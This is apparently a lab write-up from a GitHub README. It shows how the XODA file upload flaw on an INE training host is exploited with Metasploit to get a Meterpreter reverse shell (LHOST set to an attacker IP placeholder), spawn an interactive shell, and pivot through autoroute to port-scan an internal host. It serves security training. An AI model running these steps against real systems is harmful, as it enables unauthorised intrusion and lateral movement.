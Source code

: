 # INE Lab - Exploiting XODA File Upload and Pivoting to Internal Network

![Metasploit](https://img.shields.io/badge/Metasploit-6.0-red) ![Nmap](https://img.shields.io/badge/Nmap-7.90-green)

## 📌 Objective
Exploit the **XODA File Upload** vulnerability on `demo1.ine.local` to:
- Gain initial access via RCE (Remote Code Execution)
- Enumerate internal network services
- Demonstrate pivoting to a secondary target

---

*Conducted in a controlled lab environment. No production systems were affected.*

## 🔍 Methodology

## 1. <span style="color:#e67e22">🌐 Accessibility Verification</span> 🏓
```bash
ping -c 5 demo1.ine.local
```
Host responded to pings, confirming accessibility

![](Screenshots/initial_ping.png)

*Figure 1: Active host (ICMP response)*

## 2. <span style="color:#e67e22">🛡️ Initial Nmap Scan</span> 🔍

```bash
nmap demo1.ine.local
```

Port 80/HTTP open

![](Screenshots/basic_nmap_scan.png)

*Figure 2: Nmap scan showing open port 80*

## 3. <span style="color:#e67e22">🕵️ Web Service Analysis with cURL</span> 🌐

```bash
curl demo1.ine.local
```

Identified XODA instance (web file manager)

![](Screenshots/curl_host_1.png)

*Figure 3: HTML page revealing XODA*

## 4. <span style="color:#e67e22">💥 Exploitation with Metasploit</span> 🎯

### <span style="color:#9b59b6">🔧 Prerequisites</span>

```bash
/etc/init.d/postgresql start    # Start Metasploit's PostgreSQL for session logging
----------------------------------------------------------------------------------------------
msfconsole                     # Launch Metasploit framework
----------------------------------------------------------------------------------------------
db_status                      # Verify database connection status
```

### <span style="color:#9b59b6">🔎 Exploit Search</span>

```bash
search xoda_file_upload        # Search for XODA-related modules
---------------------------------------------------------------------------------------------
use exploit/unix/webapp/xoda_file_upload  # Select specific exploit
```

![](Screenshots/xoda_options_default.png)

*Figure 4: Searching for XODA exploit.*

### <span style="color:#e74c3c">⚙️ Required Configuration</span>

```bash
set RHOSTS demo1.ine.local     # Set target (Remote HOST)
---------------------------------------------------------------------------------------------
set TARGETURI /                # Specify XODA base path (typically root)
---------------------------------------------------------------------------------------------
set LHOST [ATTACKER_IP]        # Configure local IP for reverse connection
---------------------------------------------------------------------------------------------
exploit                        # Execute exploit
```

![](Screenshots/exploit_options_values.png)

*Figure 5: Setting exploit option values*

### <span style="color:#3498db">Additional Exploitation Notes</span>
PostgreSQL: Required for storing session data and scan results

⚠️ RHOSTS vs LHOST:

RHOSTS: Attack target

LHOST: Your machine (for reverse shells)

TARGETURI: Many web exploits require path adjustment

Verification: Always use show options before execution to confirm parameters

<span style="color:#2ecc71">✅ Expected Result</span>:

Meterpreter session opened with web service privileges.

![](Screenshots/exploit_run.png)

*Figure 6: Exploit sent successfully. Meterpreter session initiated.*

## 5. <span style="color:#e67e22">Post-Exploitation</span> 🕵️
<span style="color:#f1c40f">🐚 Interactive Shell</span>

```bash
shell                         # Start basic shell on target (usually non-interactive)
---------------------------------------------------------------------------------------------
/bin/bash -i                  # Force interactive shell
---------------------------------------------------------------------------------------------
ifconfig                      # List target's network interfaces
```

![](Screenshots/meterpreter_shell_ifconfig.png)

*Figure 7: Shell used to access ifconfig*

### <span style="color:#9b59b6">🗺️ Internal Network Mapping</span>

```bash
run autoroute -s 192.140.124.2 # Create internal route via Meterpreter
                               # '-s' = (subnet): Defines target network for route
---------------------------------------------------------------------------------------------
background                    # Background current session
```

![](Screenshots/meterpreter_autoroute.png)

*Figure 8: Data reception route to attacker established*

### <span style="color:#e74c3c">🔍 Internal Port Scanning</span>

```bash
use auxiliary/scanner/portscan/tcp  # Load TCP scan module:
                                   # - More stealthy (slower than Nmap)
                                   # - Native to Metasploit
---------------------------------------------------------------------------------------------
set RHOSTS 192.140.124.3      # Set internal target (from ifconfig)
---------------------------------------------------------------------------------------------
set PORTS 1-65535             # Scan all TCP ports
```

![](Screenshots/portscan_options_values.png)

*Figure 9: Finding and setting portscan options*

### <span style="color:#2ecc71">✅ Result</span>

3 open ports detected:

Port 21/FTP

Port 22/SSH

Port 80/HTTP

![](Screenshots/portscan_results.png)

*Figure 10: Open ports successfully discovered*

### <span style="color:#1abc9c">🎯 Final Notes:
This lab demonstrated how web application vulnerabilities (XODA) can serve as initial vectors for compromising internal networks. The controlled environment allowed testing pivoting techniques without real risk, highlighting the importance of:

Patch management

Network segmentation

Log analysis

</span>

### Disclaimer

This report documents activities performed *exclusively* in a controlled lab environment with:

All machines/targets part of dedicated educational infrastructure

No confidential data or production systems accessed or compromised

Deliberately configured vulnerabilities for educational purposes

All tools used in compliance with lab policies

### Ethics & Compliance:
Demonstrated techniques must only be applied in authorized environments. Unauthorized reproduction on real systems constitutes legal violation.
